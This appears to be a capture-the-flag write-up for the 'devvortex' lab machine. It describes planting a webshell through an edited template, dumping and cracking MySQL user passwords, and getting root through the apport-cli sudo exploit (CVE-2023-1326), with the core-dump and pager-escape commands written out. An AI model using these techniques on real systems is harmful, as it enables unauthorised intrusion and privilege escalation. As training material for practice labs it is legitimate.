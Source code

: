 # Port 80

## dev.devvortex.htb

I got access to the admin panel with the credentials obtained

![[admin-panel.png]]

From here try to get a reverse shell from the target machine by editing a template:

![[template-edit-webshell.png]]

Then visit the page:

![[webshell.png]]The webshell is working, now get a reverse shell

![[reverse-shell.png]]


# Target machine

## User flag

Interact with the mysql service using the credentials obtained before

![[mysql.png]]

retrieve usernames and passwords from the users table:

![[username-password-1.png]]

An attempt to crack the password works:

![[cracked.png]]

Try entering the user account:

![[user-flag.png]]
It works now find a PE vector for root.

## Root flag

Basic enumeration of the user logan reveals this:

![[user-interesting.png]]

I found a potential exploit regarding `apport` when the users in `sudoers`

First I got to generate a core dump of any process:

1. In one terminal type: 

```bash
sleep 1000
```

2. In other:
```bash
# get the PID
ps -aux | grep sleep

# Abort the process
kill -ABRT $PID

```

3. Check that a crash file was generated in `/var/crash`

![[crash.png]]

Now follow the steps in the exploit page [here](https://github.com/diego-tella/CVE-2023-1326-PoC):

```bash
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```

![[root-shell.png]]

The exploit works, get the root flag!